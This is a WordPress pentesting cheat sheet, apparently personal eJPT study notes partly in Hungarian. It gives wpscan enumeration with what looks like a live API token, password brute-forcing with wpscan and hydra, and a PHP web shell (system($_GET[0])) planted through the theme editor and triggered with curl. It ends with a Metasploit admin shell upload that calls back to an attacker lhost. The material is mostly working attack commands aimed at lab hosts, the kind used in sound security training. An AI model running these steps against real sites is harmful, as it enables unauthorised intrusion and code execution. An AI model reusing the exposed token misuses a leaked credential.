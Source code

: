 # wordpress
## basic enumeration
sudo wpscan --url http://10.10.13.59/ --enumerate --api-token WjrpE4gHXHSJWdMRFd65wbgll05shgqVteeasj8sK1Y  
## login bruteforcing
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local  
hydra -l user1 -P ./rockyou.txt 10.10.212.17 http-post-form "/login.php:username=^USER^&pass=^PASS^:F=<span>Wrong password"
### Error
* van hogy errort dob es kiirja, hogy vigyuk lejjebb a thread-et
* vegyuk le 1-re
* ha az se jo, akkor inkabb hdyraval torjuk (mukodott mar a hydra legutobb, csak a pontos html output-bol kell masolni a 'false text'-et es nem a honlap szovegbol)
## code execution with obtained credentials
### manually
go to Appareance / theme editor  
select an inactive theme and select a file (like 404.php)  
insert an rce code sample, like this: system($_GET[0]);  
save  
curl http://10.10.10.1/wp-content/themes/<theme_name>/404.php?0=id
example  
<pre>
# twentyfifteen-en belul a 404.php-t tipikusan meg lehet szerkeszteni
# van mar nyito es csuko php tag oda koze be lehet illeszteni a get_header(); ele es akkor tuti jo lesz

# [Twenty Fifteen: 404 Template (404.php)] (backslash jelek nem kellenek csak a github hulyen kezeli a tageket)
</pre>
![image](https://github.com/VajdaGergely/EJPT_pentesting_cheatsheet/assets/39236093/0b8705de-5c2f-414b-a7f0-3f96bfbf481f)
<pre>
# aztan bongeszobol vagy curl-el meg lehet hivni
curl -i -s http://10.10.3.254/wp-content/themes/twentyfifteen/404.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
* KIS NAGY BETU BAROMIRA SZAMIT A THEME ELNEVEZESENEL !!!!!!!! CASE SENSITIVE !!!!!
  * KIS BETUVEL KELL IRNI MINDENT !!!
### metasploit
msf6 > use exploit/unix/webapp/wp_admin_shell_upload  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > run  
